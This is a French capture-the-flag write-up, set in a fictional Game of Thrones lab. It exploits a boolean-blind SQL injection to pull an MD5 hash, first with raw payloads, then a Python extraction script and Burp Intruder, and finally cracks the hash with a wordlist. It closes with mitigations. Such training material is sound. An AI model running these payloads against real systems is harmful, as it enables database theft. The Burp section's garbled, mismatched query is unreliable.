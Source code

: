 ```yaml
---
title: Write-up 7
prev: "/write-ups/wu6"
---
```


# 🏰 CTF - Injection SQL Boolean Blind & Hash MD5 Faible

## 🎯 Objectif
Bravo ! Tu es dans **Castral-Roc**, dans la salle du mestre où sont stockées des **informations confidentielles des Lannister**. Parmi elles, un livre recensant **les alliés et espions infiltrés** dans les familles de Westeros.

**Mission** : Trouver **l’espion infiltré chez les Stark à Winterfell** et récupérer **son hash MD5**.

### 🔹 Informations de la table `allies`
- `username` : Nom de l’individu (hashé en MD5)
- `relation` : **famille / allié / espion / ennemi**
- `localisation` : Lieu d'opération

📌 **Problèmes de sécurité** :
- **Injection SQL Boolean Blind (`CWE-89`)** permettant d’extraire les données cachées.
- **Stockage MD5 (`CWE-328`)** permettant une attaque par dictionnaire.

📌 **Flag 1** : Le **hash MD5** du nom de l’espion infiltré chez les Stark à Winterfell.
📌 **Flag 2** : Le **nom de l’espion en clair** (`orland mertens`).

---

## ⚙️ Environnement
- **Cible :** `http://lannister.castral-roc.lannisport.south/sql_blind_hash.php`
- **Base de données :** `lannisport_db`
- **Données sensibles :** Table `allies`
- **Wordlist fournie** : Liste des 5000 personnes du château

---

## 🚀 Étape 1 : Vérifier la vulnérabilité SQL
Dans le champ **Nom** du formulaire, entre :
```sql
' OR 1=1 --
```
✅ **Si la réponse est `L’utilisateur est un allié`, alors l’injection SQL fonctionne.**


---

## 🔍 Étape 2 : Tester si un espion est infiltré chez les Stark
Dans le champ **Nom**, entre :
```sql
' OR (SELECT COUNT(*) FROM allies WHERE relation='espion' AND localisation='Winterfell') > 0 --
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors un espion est bien présent.**


---

## 🕵️ Étape 3 : Exfiltrer le hash MD5 de l’espion (Boolean Blind)
Nous allons **extraire son hash MD5 caractère par caractère** en utilisant **ASCII() et SUBSTRING()**.

Dans le champ **Nom**, entre :
```sql
' OR (SELECT ASCII(SUBSTRING(username, 1, 1)) FROM allies WHERE relation='espion' AND localisation='Winterfell') = 54 --
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors le premier caractère du hash est `54` (hexadécimal).**

Répète en changeant `1, 1` par `2, 1`, `3, 1`… jusqu'à obtenir le hash MD5 complet !


---

## ⚡ Étape 4 : Automatiser l’extraction avec Python
Pour éviter une extraction manuelle, utilise ce script **Python** :
```python
import requests

URL = "http://lannister.castral-roc.lannisport.south/sql_blind_hash.php"
TRUE_RESPONSE = "L’utilisateur est un allié"
MD5_HASH = ""

for i in range(1, 33):  # Un hash MD5 fait 32 caractères hexadécimaux
    for hex_code in "0123456789abcdef":  # Valeurs hexadécimales
        payload = f"' OR (SELECT SUBSTRING(username, {i}, 1) FROM allies WHERE relation='espion' AND localisation='Winterfell') = '{hex_code}' -- "
        data = {"username": payload}
        response = requests.post(URL, data=data)

        if TRUE_RESPONSE in response.text:
            MD5_HASH += hex_code
            print(f"[+] Caractère {i} trouvé : {hex_code}")
            break

print(f"\n🚀 Hash MD5 de l'espion : {MD5_HASH}")
```

✅ **Exécute le script :**
```bash
python3 extract_md5.py
```
🚀 **Il affichera le hash MD5 complet !**


avec burp : 




BURP : 
1, ouvrir burp, et le browser intégré avec le proxy, 

2, faire requete sur http://lannister.castral-roc.lannisport.south/sql_blind_hash.php

pour trouver qqun, par exemple tyrion

3, Envoyer la requete dans l'Intruder 

Mettre ensuite l'attaque en cluster bomb.

après le user on met des payloads : 

username=' AND (SELECT

SUBSTRING(password,§position_carac§,1) FROM users WHERE

relation='espion')=§carac§, ,§position_carac§

4, on va ensuite dans payloads, pour le assigner des valeurs à §position_carac§ et §carac§

pour §position_carac§ on peut entrer des nombres de 1 à 20 et pour §carac§ on peut entrer des lettres de a à z, des lettres de A à Z, et des nombres de 0 à 9

Lancer l'attaque avec start attack

Tirer ensuite pas longueur et on obtient sur chaque ligne un lettre du hash

---

## 🔑 Étape 5 : Trouver le nom de l’espion via une wordlist
Le hash MD5 de l’espion doit être comparé aux 5000 noms fournis.

### 🔹 Utilisation d’un script Python pour comparer le hash
```python
import hashlib

MD5_TARGET = "54cc047eb12722d574b528af105d9e21"  # Hash obtenu
WORDLIST = "names_5000.txt"

with open(WORDLIST, "r", encoding="utf-8") as file:
    for name in file:
        name = name.strip().lower()
        hashed_name = hashlib.md5(name.encode()).hexdigest()

        if hashed_name == MD5_TARGET:
            print(f"[+] Nom de l'espion trouvé : {name}")
            break
```

✅ **Exécute le script :**
```bash
python3 crack_md5.py
```
🚀 **Il affichera `orland mertens` !**


---

## 🏆 Validation du CTF
🚀 **Félicitations, tu as terminé la mission !** 🔥

📌 **Flag 1** : `MD5 du nom de l’espion`
📌 **Flag 2** : `orland mertens`


---

## 🔒 Mitigation & Sécurisation
- **Éviter l’injection SQL** → Utiliser **des requêtes préparées** (`mysqli_stmt_bind_param`).
- **Ne pas stocker les mots de passe / noms sensibles en MD5** → Utiliser `bcrypt`.
- **Limiter les tentatives de requêtes Boolean Blind** → Protection par `fail2ban` et `CAPTCHA`.

---

## 🎯 Conclusion
✔ **Exploitation d’une injection SQL Boolean Blind (`CWE-89`).**
✔ **Exfiltration du hash MD5 de l’espion infiltré chez les Stark.**
✔ **Brute-force du hash MD5 avec une wordlist pour retrouver `orland mertens`.**

🚀 **CTF réussi ! Prêt pour la prochaine mission ?** 🔥